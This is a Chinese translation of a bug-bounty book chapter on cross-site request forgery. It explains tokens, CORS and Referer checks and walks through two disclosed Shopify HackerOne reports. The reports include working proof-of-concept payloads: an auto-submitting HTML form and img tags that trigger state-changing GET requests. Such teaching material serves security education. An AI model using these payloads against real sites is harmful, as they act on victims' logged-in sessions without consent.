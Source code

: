 ## **八、跨站請求偽造**

>作者：Peter Yaworski
>
>譯者：飛龍
>
>協議：CC BY-NC-SA 4.0


## **描述**

跨站請求偽造，或CSRF攻擊，在惡意網站，電子郵件，即使消息，應用以及其它，使用戶的Web瀏覽器執行其它站點上的一些操作，並且用戶已經授權或登錄了該站點時發生。通常會在用戶不知道操作已經執行的情況下發生。

CSRF 攻擊的影響取決於收到操作的站點。這裡是一個例子：
1. Bob 登錄了它的銀行賬戶，執行了一些操作，但是沒有登出。
2. Bob 檢查了它的郵箱，並點擊了一個陌生站點的鏈接。
3. 陌生站點向 Bob 銀行站點發送請求來進行轉賬，並傳遞第一步中，保存 Bob 銀行會話的 Cookie 信息。
Bob 的銀行站點收到了來自陌生（惡意）站點的請求，沒有使用 CSRF Token 的情況下處理了轉賬。

更有意思的是這個想法，也就是惡意網站的鏈接可以包含有效的 HTML，`<imgsrc="www.malicious_site.com">`，並且並不需要 Bob 點擊鏈接。如果 Bob 的設備（例如瀏覽器）渲染了這個圖片，它會向`malicious_site.com`發送請求，來完成 CSRF 攻擊。
<p>
現在，知道了 CSRF 的危險之後，它們可以以多種方式防範。最流行的方式大概是 CSRF Token，它必須隨著潛在的數據修改氣你去一起提交（例如 POST 請求）。這裡，Web 應用（例如 Bob 的銀行）會生成一個兩部分的 Token，一個 Bob 會收到，另一個由應用保管。
<p>
當 Bob 試圖提交轉賬請求時，它就需要提交 Token，銀行會驗證它這一邊的 Token。
<p>
現在，對於 CSRF 和 CSRF Token 來說，跨域資源共享似乎越來越普遍了。或者只是我注意到是這樣。
本質上，CORS 限制了資源，包括 JSON 響應，被外域訪問。換句話說，當 CORS 用於保護站點時，你就不能編寫 JavaScript 來調用目標應用，讀取響應或者進行另一個調用，除非目標站點允許。
<p>

似乎這非常令人混亂，使用 JavaScript，嘗試調用`HackerOne.com/activity.json`，讀取響應並進行二次調用。你也會在下面的例子 #3 看到它的重要性，以及潛在的原理。

<p>

最後，重要的是要記住（感謝 Jobert Abma 補充），並不是每個不帶有 CSRF Token 的請求都帶有 CSRF 問題。一些站點可能執行額外的檢查，例如比較 Referer 協議頭（雖然可能出錯，並且有一些繞過它的案例）。它是一個字段，標識了鏈接到被請求資源的頁面地址。換句話說，如果 POST 調用中的 Referer 並不來源於收到 HTTP 請求的相同站點，站點可能不允許該調用，因此能夠完成和驗證 CSRF Token 的相同操作。此外，不是每個站點在創建或者定義 Token 時都使用csrf術語。例如，在 Badoo 它使用rt參數，我們下面會討論。

>連結
>
>[查看OWASP 測試指南。](https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005%29)


---

## **示例**

## **1. Shopify 導出已安裝的用戶**

```
難度：低

URL：https://app.shopify.com/services/partners/api_clients/XXXX/export_installed_users
報告鏈接：https://hackerone.com/reports/96470
報告日期：2015.10.29
獎金：$500
描述：
```
Shopify 的 API 提供了一個終端，用於導出已安裝用戶的列表，通過上面給出的 URL。在站點能夠調用該終端，並且讀取信息的地方存在漏洞，因為 Shopify 在該調用中並沒有包含任何 CSRF Token 驗證。所以，下面的 HTML 代碼可以用於代表任何未知受害者提交表單。

```html
<html>
    <head><title>csrf</title></head>
    <body onLoad="document.forms[0].submit()">
        <form action="https://app.shopify.com/services/partners/api_clients/1105664/\ export_installed_users" method="GET">
        </form>
    </body>
</html>
```
這裡，通過僅僅瀏覽站點，JavaScript 就會提交表單，它實際上包含 Shopify API 的 GET 請求，使用受害者的瀏覽器，並提供 Shopify 的 Cookie。

>重要結論
>
>擴展你的攻擊領域，並從站點轉向它的 API 終端。 API 提供了極大的漏洞可能性，所以最好牢記他，尤其是當你知道 API 
>可能開發完畢，或者在站點實際開發之後可用的時候。


---

## **2. Shopify Twitter 斷開連接**

```
難度：低

URL：https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect
報告鏈接：https://hackerone.com/reports/111216
報告日期：2016.1.17
獎金：$500
描述：
```
Shopify 提供了 Twitter 的繼承，來允許店主轉推它們的商品。與之相似，也提供了功能來斷開推特賬戶和被連接商店的鏈接。
<p>
斷開 Twitter 賬戶的 URL 寫在了上面。當進行調用時，Shopify 不驗證 CSRf Token，這可能會允許惡意人員代表受害者進行 GET 調用，因此斷開受害者的商店與 Twitter 的連接。
<p>
在提供這份報告的時候，WeSecureApp 提供了下面的漏洞請求示例 - 要注意下面的img標籤的使用，它對漏洞 URL 進行調用：
```
GET /auth/twitter/disconnect HTTP/1.1
Host: twitter-commerce.shopifyapps.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:43.0) Gecko/2010010\ 1 Firefox/43.0
Accept: text/html, application/xhtml+xml, application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://twitter-commerce.shopifyapps.com/account
Cookie: _twitter-commerce_session=REDACTED
Connection: keep-alive
```
由於瀏覽器進行 GET 請求來獲取給定 URL 處的圖片，並且不驗證任何 CSRF Token ，用戶的商店現在已斷開連接：

```html
<html>
    <body>
        <img src="https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect">
    </body>
</html>
```

>重要結論
>
>這種情況下，這個漏洞可以使用代理服務器來發現，例如 Burp 或者 Firefox 的 Tamper Data，來觀察發送給 Shopify 
>的請求，並主要到這個請求使用 GET 方式來執行。由於這是個破壞性操作，而 GET 請求不應該修改任何服務器上的數據，這應該是一些需要關注的事情。